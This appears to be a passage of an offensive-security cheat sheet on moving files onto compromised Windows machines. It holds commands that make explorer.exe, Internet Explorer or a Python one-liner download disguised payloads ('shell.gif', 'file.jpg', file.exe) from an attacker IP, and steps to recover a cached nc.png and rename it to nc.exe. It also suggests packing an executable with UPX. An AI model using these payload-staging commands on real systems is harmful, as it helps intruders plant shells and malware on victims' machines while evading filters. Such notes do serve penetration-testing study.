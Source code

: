 ### Optional pack it with UPX
upx -9 file.exe


## internet explorer - Default Browser
```bash cheat filetransfer Download with explorer.exe

cmd.exe /c "cd / & dir /s /b explorer.exe"
C:\windows\explorer.exe http://<ip>/file.jpg
cmd.exe /c "cd / & dir /s /b file.jpg"
```

### Download file with I.E.
```bash cheat filetransfer Download with IE
cd / & dir /s /b iexplore.exe
"C:\Program Files\Internet Explorer\iexplore.exe" http://<ip>/shell.gif
[Press ENTER once more]
```

### Alterative I.E.
```bash cheat filetransfer Download with IE 2
cd C:\Program Files\Internet Explorer
iexplore.exe http://<ip>/shell.gif
```

### WinXP - retrieve file
```bash cheat filetransfer retrieve file on XP
chdir C:\Documents and Settings\MasterJoda\
cd / & dir /s /b nc.png
....look for nc.png
chdir C:\Documents and Settings\MasterJoda\Local Settings\Temporary Internet Files\Content.IE5\EUQBFA2G
copy nc.png C:\nc.exe
```

### TODO - Windows Vista + Windows 7:
move "C:\Users\benny\AppData\Local\Microsoft\Windows\Temporary Internet Files\file.jpg" file.exe

### TODO - Windows 8 + 8.1:
C:\Users\benny\AppData\Local\Microsoft\Windows\INetCache\file.jpg
```bash cheat filetransfer file
cmd.exe /c "cd / & dir /s /b 'Temporary Internet Files'"
```
get the file from the temp files...

## python
```
C:\Python27\python.exe -c "import urllib; urllib.urlretrieve ('http://192.168.2.200/file.exe', r'C:\Users\benny\Desktop\file.exe')"
```
